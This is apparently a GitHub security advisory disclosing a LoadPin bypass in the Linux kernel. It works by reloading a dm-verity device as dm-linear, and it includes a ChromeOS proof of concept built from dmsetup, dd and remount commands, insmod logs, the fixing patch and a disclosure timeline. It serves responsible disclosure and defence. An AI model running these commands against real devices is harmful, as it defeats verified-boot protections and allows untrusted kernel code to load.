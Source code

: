 ```yaml
---
title: 'Linux: LoadPin bypass via dm-verity table reload'
severity: High
ghsa_id: GHSA-6vq3-w69p-w63m
cve_id: null
weaknesses: []
products:
- ecosystem: n/a
  package_name: kernel
  affected_versions: < 4caae58406f8ceb741603eee460d79bacca9b1b5
  patched_versions: 4caae58406f8ceb741603eee460d79bacca9b1b5
cvss: null
credits:
- github_user_id: skukreti
  name: Sarthak Kukreti
  avatar: https://avatars.githubusercontent.com/u/1266548?s=40&v=4
---
```


### Summary
Dm-verity is used for extending root-of-trust to root filesystems for several distributions, including ChromeOS, Container-Optimized OS and Android. LoadPin builds on this property to restrict module/firmware loads to just the trusted root filesystem. Device-mapper table reloads currently allow users with root privileges to switch out the target with an equivalent dm-linear target and bypass verification till reboot. This allows root to bypass LoadPin and can be used to load untrusted and unverified kernel modules and firmware, which implies arbitrary kernel execution and persistence for peripherals that do not verify firmware updates.

### Severity
High - while the attack vector has a high barrier of entry (access to root shell), the resulting constructs allow the attacker to take a trusted read-only root filesystem and arbitrarily modify it at will for the remainder of the boot. By extension, this breaks down any guarantees built on the assumption that “verified root filesystem = trusted content”: an example of this is LoadPin, which trusts verified root filesystems. Absent a mechanism to modify the boot process, subsequent reboots will fail since an attempt to set up a dm-verity device on top of the modified filesystem will fail verification.

### Proof of Concept
**Precondition:** This specific attack scenario is gated on the user getting access to a root shell. Alternately, attackers that can leverage existing usages of `dmsetup` (eg. cryptohome in ChromeOS) to run arbitrary device mapper commands can lower the barrier to entry.


Setup: Any ChromeOS device running with rootfs verification. To simplify showcasing the exploit mechanism, we use a dev mode device with rootfs verification enabled, which already gives us access to a root shell.

 \
On ChromeOS, the root device is named **vroot**. `dmsetup table` on a device shows the exact parameters of the target, although the attacker can figure out the parameters based on the device’s storage configuration.


```
$ dmsetup table
vroot 0 <size> verity.... <root_device>
… other devices
```


The following set of commands result in an in-line replacement of the verity device with an equivalent dm-linear device:


```
$ dmsetup suspend vroot
$ dmsetup reload vroot --table "0 <size> linear <root_device> 0"
$ dmsetup resume vroot
```


This allows subsequent reads into **vroot** to bypass the verification. This also allows attackers that can in-place modify the dm-linear device to (1) write extents to existing files beneath the filesystem if it is a true read-only filesystem (eg. squashfs, erofs) or (2) remount the filesystem as rw and add files to it.

Note: on ChromeOS, the build scripts use a [hack](https://source.chromium.org/chromiumos/chromiumos/codesearch/+/main:src/platform/vboot_reference/scripts/image_signing/common_minimal.sh;l=403) to mark the root filesystem as read only (set unsupported feature flags).  That can be undone using:


```
  ro_compat_offset=$((0x464 + 3))  # Set 'highest' byte
  printf '\000' |
    sudo dd of=/dev/mapper/vroot seek=${ro_compat_offset} \
            conv=notrunc count=1 bs=1 2>/dev/null

  mount -o rw,remount /
```


 \
Since the mnt\_id/superblock for the filesystem hasn’t changed, LoadPin assumes that the module is still being read off of a verified filesystem.  \
 \
The attacker can now attempt to load a custom kernel module (for illustration, we use an externally compiled lzo kernel module); normally, LoadPin will deny insmods from any non-root filesystem:


```
localhost ~ # insmod /tmp/abcd.ko.gz 
insmod: ERROR: could not insert module /tmp/abcd.ko.gz: Operation not permitted
localhost ~ # dmesg | tail
…
[  765.974284] LoadPin: kernel-module denied obj="/tmp/abcd.ko.gz" pid=7105 cmdline="insmod /tmp/abcd.ko.gz"
```


 \
In contrast, attempting to copy the module over to the root filesystem and then using insmod successfully bypasses LoadPin. The load fails only because lzo determines a version mismatch (which can be trivially overridden).

  <tr>
   <td style="background-color: #fafafa">

```
localhost ~ # insmod /lib/modules/abcd.ko.gz 
insmod: ERROR: could not insert module /lib/modules/abcd.ko.gz: Invalid module format

localhost ~ # dmesg | tail
…
[  620.335762] lzo: version magic '5.10.117 SMP preempt mod_unload ' should be '5.10.117-16074-ge03ffab7384c SMP preempt mod_unload '
```


   </td>
  </tr>

### Further Analysis
The device-mapper framework provides a mechanism to mark targets as immutable (and hence fail table reloads that try to change the target type). The following patch marks dm-verity targets as immutable:


```
diff --git a/drivers/md/dm-verity-target.c b/drivers/md/dm-verity-target.c
index 065d7d3ff026..55a410b2880e 100644
--- a/drivers/md/dm-verity-target.c
+++ b/drivers/md/dm-verity-target.c
@@ -1584,6 +1584,7 @@ static int verity_ctr(struct dm_target *ti, unsigned argc, char **argv)
 
 static struct target_type verity_target = {
        .name           = "verity",
+       .features       = DM_TARGET_IMMUTABLE,
        .version        = {1, 8, 0},
        .module         = THIS_MODULE,
        .ctr            = verity_ctr,
```


Subsequent attempts to replace verity with another target fail with:


```
> [  124.755083] device-mapper: ioctl: can't replace immutable target type verity
```


While reloads with the type verity still succeed (which might be a mechanism to change the error handling to “none” and hence bypass the verification), such commands only succeed in read-only mode (which implies that the device-mapper table will not be modified).


### Timeline
**Date reported**:5/26/2022 
**Date fixed**: 6/01/2022
**Date disclosed**: 7/11/2022